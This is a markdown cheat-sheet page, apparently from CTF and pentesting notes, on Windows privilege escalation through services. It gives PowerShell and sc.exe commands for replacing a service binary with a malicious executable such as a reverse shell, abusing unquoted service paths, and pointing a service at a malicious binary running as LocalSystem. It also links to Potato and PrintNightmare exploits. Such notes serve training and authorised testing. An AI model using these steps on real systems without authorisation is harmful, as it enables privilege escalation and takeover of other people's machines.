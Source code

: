 # Windows services

[Go back](../index.md#windows-privilege-escalation-)

[![windowsprivesc20](../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![steelmountain](../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-md-2"><div>

You can learn more about Windows services [here](/operating-systems/windows/_knowledge/index.md#windows-services).

* 🗺️ List services

```shell!
PS> Get-Service
PS> net start
PS> sc.exe query # with infos
```

* 🔎 Get more info about a service

```shell!
PS> sc.exe qc xxx
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: xxx
  [...]
  BINARY_PATH_NAME   : C:\[...]\service.exe
  [...]
```

🔥 In CTFs, you may be able to start/stop the service manually

```shell!
PS> sc.exe stop xxx
PS> # do your job
PS> sc.exe start xxx
```

➡️ See also: [Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 🥔 and [SweetPotato](https://github.com/CCob/SweetPotato) (1.2k ⭐).

👉 [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675) (CVE-2021-1675) vulnerability in Spooler service.

</div><div>

#### Common flaws

➡️ **Insecure permissions**: the current user may be able to replace the service with a malicious executable (ex: revshell.exe)

```shell!
PS> icacls C:\[...]\service.exe
PS> move C:\[...]\service.exe C:\[...]\service.exe.old
PS> icacls C:\[...]\malicious.exe /grant Everyone:F
```

➡️ **Unquoted Service Paths**: if the service is using a PATH in which there are spaces, the service isn't quoted, and the hacker can create files, then the hacker may create an executable that is executed with the rest of the path in argument.

```shell!
PS> icacls $Env:appdata\Vulnerable Program\service.exe
PS> move C:\[...]\malicious.exe $Env:appdata\Vulnerable.exe
PS> # the service will execute
PS> # $Env:appdata\Vulnerable.exe Program\service.exe
```

➡️ **Insecure Service Permissions**: it occurs if we can edit the permissions of a service, such as being able to change the location of the binary. Use the [accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) command. If the user is granted `SERVICE_ALL_ACCESS` on the service, then have fun.

```shell!
PS> # LocalSystem is the highest privileged account available
PS> sc.exe config xxx binPath=C:\[...]\malicious.exe  obj= LocalSystem
```
</div></div>